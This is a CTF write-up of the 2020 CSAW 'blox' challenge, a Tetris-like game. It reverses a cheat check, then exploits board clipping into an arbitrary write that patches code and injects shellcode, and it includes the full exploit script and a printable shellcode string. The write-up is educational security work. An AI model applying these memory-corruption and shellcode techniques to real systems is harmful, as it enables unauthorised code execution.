






This was a two-part series from the 2020 CSAW CTF Qualifier involving a small Tetris-like game. <!-- end -->I mostly did the second part, though will touch on some of the first as well. I will also go through the process of developing a solution that is doable with no scripting and only a keyboard.

Solving this challenge was a big team effort. Shoutout to Tux, dns, and ItzSomebody for the first part, and pepsipu and infuzion for the second.

# Description
> We found an old arcade machine lying around, manufactured by the RET2 Corporation. Their devs are notorious for hiding backdoors and easter eggs in their games, care to take a peek?
>
> https://wargames.ret2.systems/962c162fa1d2ea626d36/csaw_2020

# Part 1: Reversing
The goal for the first part is to "turn on cheats." A casual glance through the source code leads us here:

```c
// magic values for the hardware logging mechanism
// hacking is grounds for voiding this machine's warranty
#define LOG_CHEATING 0xbadb01
#define LOG_HACKING 0x41414141
void hw_log(int reason) {
    syscall(1337, reason);
}
```

And later in the game logic,
```c
if (!cheats_enabled && check_cheat_codes()) {
    cheats_enabled = 1;
    hw_log(LOG_CHEATING);
}
```

Thus, it is clear that the goal is simply to get `check_cheat_codes()` to return true. Unfortunately, the source for this function is hidden away from us, so we'll have to use their "Walmart GDB" interface to disassemble it.

```
wdb> disas check_cheat_codes
0x402718 <+0>:    push    rbp
0x402719 <+1>:    mov     rbp, rsp
0x40271c <+4>:    sub     rsp, 0x10
0x402720 <+8>:    mov     dword [rbp-0x4], 0x0
0x402727 <+15>:   jmp     0x402750
0x402729 <+17>:   mov     eax, dword [rbp-0x4]
0x40272c <+20>:   mov     edi, eax
0x40272e <+22>:   call    0x402554 <sub_402554>
0x402733 <+27>:   test    eax, eax
0x402735 <+29>:   je      0x402745
0x402737 <+31>:   mov     eax, dword [rbp-0x4]
0x40273a <+34>:   mov     edi, eax
0x40273c <+36>:   call    0x402637 <sub_402637>
0x402741 <+41>:   test    eax, eax
0x402743 <+43>:   jne     0x40274c
0x402745 <+45>:   mov     eax, 0x0
0x40274a <+50>:   jmp     0x40275b
0x40274c <+52>:   add     dword [rbp-0x4], 0x1
0x402750 <+56>:   cmp     dword [rbp-0x4], 0x3
0x402754 <+60>:   jbe     0x402729
0x402756 <+62>:   mov     eax, 0x1
0x40275b <+67>:   leave
0x40275c <+68>:   retn
```

So this function calls two other functions. I unfortunately did not work on disassembling these two (I was asleep, oops), but Tux and dns worked out how these work. Basically, both of them are checking the board positions to see if a cell is filled. There are several constraints to satisfy, and after some work Tux (orz) generated a valid board.



So the goal is to create this shape with tetrominoes:


But how to create this shape? After puzzling (pun intended) on this for a while, I decided to just try doing it by hand.


Note that since the program calls `srand(1)` at the beginning, the order of tetrominoes is always the same from program start. With this in mind, I played tetris for a few minutes.



Too bad I forgot to turn off debug mode and the keylogger. Recreating this a second time was somehow harder than doing it the first time, but I got it eventually.



Using the keylogger and their python interface, I wrote code to get to this point consistently.

```py
p.send("\n                 \n\n                 \n\n                 \n\nx x xd xdd xdd a xdd \n\naaa cxaaaaa xaaaaaa aaa aaaaaa caaaaaa ddddd aaa xdd cdddd d xa cdddd                  \n")
```

# Part 2: Binary Exploitation
The goal for the second part is to "invalidate the warranty.". From the first part, we know that this simply means calling the special syscall with number 0x41414141.

Somewhere along the way, infuzion dumped the whole binary out of the debugger and renamed all the symbols in Ghidra, which was super helpful (until the organizers decided to release the binary towards the end of the CTF, after we had already solved the challenge 😠)

Now that cheats are enabled, what are we allowed to do? In the source code, we can see this:
```c
else if (cheats_enabled) {
    int idx = str_index_of(" IJLOSZT", op);
    if (idx > 0)
        g_cur_mino = idx;
}
```

So, once we enable cheats, we can set the current tetromino to whatever we like by pressing its letter. At first, this doesn't seem too useful. But, if we carefully rotate a piece, then swap it out for a longer one, it could clip past the bottom of the board.


This is certainly interesting behavior, but what does it do? It is important to understand, at this point, how the board is represented in memory. The board is simply a `unsigned char board[NROWS][NCOLS];`, where each element is a number corresponding to the type (and color) of the tetromino cell in that position. Throughout the code, tetrominoes are referred to with these indices.

```c
unsigned char shapes[NTTR_TYPES+1][4][4][2] = {
    {}, // none
    { // I
        {{0, 0}, {1, 0}, {2, 0}, {3, 0}},
        {{0, 0}, {0, 1}, {0, 2}, {0, 3}},
        {{0, 0}, {1, 0}, {2, 0}, {3, 0}},
        {{0, 0}, {0, 1}, {0, 2}, {0, 3}}
    },
    { // J
        {{0, 0}, {0, 1}, {1, 1}, {2, 1}},
        {{0, 0}, {0, 1}, {0, 2}, {1, 0}},
        {{0, 0}, {1, 0}, {2, 0}, {2, 1}},
        {{1, 0}, {1, 1}, {1, 2}, {0, 2}}
    },
    { // L
        {{0, 1}, {1, 1}, {2, 1}, {2, 0}},
        {{0, 0}, {0, 1}, {0, 2}, {1, 2}},
        {{0, 0}, {1, 0}, {2, 0}, {0, 1}},
        {{0, 0}, {1, 0}, {1, 1}, {1, 2}},
    },
    { // O
        {{0, 0}, {0, 1}, {1, 0}, {1, 1}},
        {{0, 0}, {0, 1}, {1, 0}, {1, 1}},
        {{0, 0}, {0, 1}, {1, 0}, {1, 1}},
        {{0, 0}, {0, 1}, {1, 0}, {1, 1}}
    },
    { // S
        {{1, 0}, {2, 0}, {0, 1}, {1, 1}},
        {{0, 0}, {0, 1}, {1, 1}, {1, 2}},
        {{1, 0}, {2, 0}, {0, 1}, {1, 1}},
        {{0, 0}, {0, 1}, {1, 1}, {1, 2}}
    },
    { // Z
        {{0, 0}, {1, 0}, {1, 1}, {2, 1}},
        {{1, 0}, {1, 1}, {0, 1}, {0, 2}},
        {{0, 0}, {1, 0}, {1, 1}, {2, 1}},
        {{1, 0}, {1, 1}, {0, 1}, {0, 2}}
    },
    { // T
        {{0, 1}, {1, 0}, {1, 1}, {2, 1}},
        {{0, 0}, {0, 1}, {0, 2}, {1, 1}},
        {{0, 0}, {1, 0}, {1, 1}, {2, 0}},
        {{0, 1}, {1, 0}, {1, 1}, {1, 2}}
    }
};
```

Thus, clipping a tetromino past the bottom of the board allows us to write any byte between 0x01 and 0x07 to any of the 12 bytes after the board. So what comes after the board?



`menu_selection` is not that interesting. `heap_top` is quite important, as it is used in the program's custom `malloc` implementation.

```c
void* malloc(unsigned long n) {
    if (!heap_top)
        heap_top = heap;

    if (heap_top+n >= (void*)&heap[sizeof(heap)]) {
        writestr("ENOMEM\n");
        exit(1);
    }
    void* p = heap_top;
    heap_top += n;
    return p;
}
```

This is a very simple bump allocator that does not free any old memory. The only place this is used is when you get a high score.

```c
bool check_high_score() {
    unsigned int idx;
    for (idx = 0; idx < NHIGH_SCORES; idx++)
        if (g_score > high_scores[idx])
            break;
    if (idx == NHIGH_SCORES)
        return 0;

    writestr("  NEW HIGH SCORE!!!\n");
    char* name = malloc(4);
    writestr("Enter your name, press enter to confirm\n");
    writestr("___");
```

So this gives us an idea of how the bug could lead to arbitrary write. We first use the tetromino clipping to write a nearly-arbitrary (remember, only `0x01-0x07`) address to `heap_top`, then we can write up to three bytes (or zero, if we don't enter anything) at that address. Note that since the program's memory is all `rwx`, we can also write to the code segment, which could potentially be quite powerful.

```
wdb> vmmap
0x400000-0x405000 rwx csaw2020_blox
0x7ffffffde000-0x7ffffffff000 rw- [stack]
```

Since we have the ability to set the bottom byte of `heap_top` to any number modulo 4, we can theoretically overwrite any address because `malloc` always increments by 4. However, in practice, due to a combination of the strange web interface and timing issues, we need to be a bit smarter about where we choose to overwrite. Specifically, we want to try to avoid having to overwrite things far away from what we can create with the tetromino clipping.

First, we note that we must get a high score every time in order for `malloc` to be called. Since this is rather difficult to do, we will simply patch out the part of the code that writes the high scores. Other teams wrote code to generate progressively higher scores by getting more line clears, but this obviously takes more work.

The instruction that writes the high score number is at `0x400338`, and it is 3 bytes long:
```
wdb> x/i 0x400338
0x400338 <check_high_score+432>:  mov dword ptr [rcx + rdx], eax
wdb> x/3bx 0x400338
0x400338: 0x89    0x04    0x11
```

Our goal is to turn this into a NOP. Luckily, there are several 3-byte effective NOPs made up of capital letters. pepsipu discovered the exact method to do this: after activating cheats, clipping an L into the second column will put `heap_top` in the right place after topping out. Topping out again with a high score and writing `TAZ` turns this instruction into:
```nasm
push   rsp
pop    r10
```

Next, we would like to remove the restriction on what kinds of characters we are allowed to input as a high score, since overwriting only capital letters is not too useful. infuzion found that if we wrote a single `0x50` (`P`) at `0x40021e`, it would bypass nearly all of the checks.
```
wdb> x/2i 0x400219
0x400219 <check_high_score+145>:  cmp byte ptr [rbp - 9], 0x7f
0x40021d <check_high_score+149>:  jne 0x400247
wdb> set *(char*)(0x40021e) = 0x50
0x40021e set to 0x50
wdb> x/2i 0x400219
0x400219 <check_high_score+145>:  cmp byte ptr [rbp - 9], 0x7f
0x40021d <check_high_score+149>:  jne 0x40026f
```

Essentially what this does is skip past some of the checks.


At this point we are free to write any characters we like. Note that this means we must be careful from this point onwards, since spamming hard drop will overwrite whatever the heap points to with a bunch of spaces. infuzion suggested writing at `0x40011f`, because it was inside of `malloc`, which we could call in a controlled way (by getting a high score). I decided to write this shellcode:
```
bf 41 41 41 41  mov    edi,  0x41414141
68 73 0d 40 00  push   0x400d73
c3              ret
```

`0x400d73` is the `hw_log` function, which will take our argument in rdi and make the special syscall. Doing this gets the flag.



Here's the final script we used in the competition:
```py
import interact

p = interact.Process()

# cheats
p.send("\n                 \n\n                 \n\n                 \n\nx x xd xdd xdd a xdd \n\naaa cxaaaaa xaaaaaa aaa aaaaaa caaaaaa ddddd aaa xdd cdddd d xa cdddd                  \n")

# disable high score write
p.send("\nOzaaaaaassssssssssssssssssL                 \n\n                 TAZ\n")

# would like to overwrite 0x40021e with 0x50
p.send("\nOxaaaaaadssssssssssssssssssJ                 \n")
p.send("\nOxaaaaaassssssssssssssssssZ                 \n")
# increment heap_top
for _ in range((0x40021e-0x40020a)//4):
    p.send("\nIaaaaaa Ia                  \n")
p.send("\nIaaaaaa Ia                  \x50\n")

# would like to write shellcode to 0x40011f
p.send("\nOxaaaaaadssssssssssssssssssI                 \n")
p.send("\nOxaaaaaassssssssssssssssssT                 \n")
# increment heap_top
for _ in range((0x40011f-0x400107)//4):
    p.send("\nIaaaaaa Oaaaaaa O O O O O O O O O O \n")
p.send("\nIaaaaaa Oaaaaaa O O O O O O O O O O ")
p.send("\xBF\x41\x41\x41\x41\x68\x73\x0D\x40\x00\xC3\n")

# high score baby
p.send("\nIaaaaaa Oaaaaaa O O O O O O O O O O \n")

p.interactive()
```

# Optimizing for a Keyboard-Only Solution
Of course, this solution presents some issues for a potential keyboard-only solve. The most obvious is that the shellcode contains non-printable characters. Also, the location we selected for our shellcode is not optimal, because it is far away from what we can create with just the tetromino clipping.

The TAZ and P patches are too specific to move elsewhere, so they'll have to stay put.

First we'll tackle the shellcode location, as it turns out knowing this is pretty critical to writing a short, printable shellcode. `0x400401` in `place_cur_mino` is a good spot, because we can call it easily and its address can be created just by overwriting a `0x04` and `0x01`, both of which we can do.

The printable shellcode presents a challenge. Our end goal is to call `syscall(1337, 0x41414141)`, and the most straightforward way to do this is to set rdi to `0x41414141` and jump to the program's `hw_log` function. Unfortunately, working with rdi is quite difficult with only printable characters. To help me write this shellcode, I found [this page](https://nets.ec/Alphanumeric_shellcode) to be very helpful.

The most straightforward way to change rdi is to use the `xor rdi, QWORD PTR ss:[reg]` instruction. In order to save time, we can skip zeroing the register and simply use the debugger to find the value of rdi at that point, which is `0x13`. Thus, this assembly will set rdi to `0x41414141`.

```nasm
push   rsp
pop    rdx
pop    rax
push   0x41414152
xor    rdi,  QWORD PTR ss:[rdx]
pop    r8
```

Next, we'd like to jump to `hw_log` somehow. Unfortunately, this is not easy as most of the jump instructions are not printable. However, some of the relative short jumps are printable. We could push the address we'd like to jump to, then use a relative short jump to jump down to the return at the end of the function.

With some trial and error, this is what I came up with:
```nasm
push   rsp
pop    rdx
pop    rax
push   0x41414152
xor    rdi,  QWORD PTR ss:[rdx]
pop    r8
push   0x41614141
pop    rax
xor    eax,  0x41214c3a
push   rax
jne    0x40043d
```

The final shellcode (without the quotes, note the space):
```
'TZXhRAAA6H3:AXhAAaAX5:L!APu '
```

Since the organizers decided to release the binary later, I wrote a custom wrapper (mostly implemented with `ptrace`) to patch the output strings to proper ANSI, provide the custom syscalls, and trigger LiveSplit on some checkpoints.

Yes, that's right - <a href="./2020-09-20_23-39-47.mp4">speedrunning blox is now a thing</a>. Certainly some areas for improvement, but an excellent start for sure.

# Final Thoughts
Overall, this was not a terribly difficult challenge, but it was certainly very interesting. I had a lot of fun solving it (and playing way too much of it after the CTF).
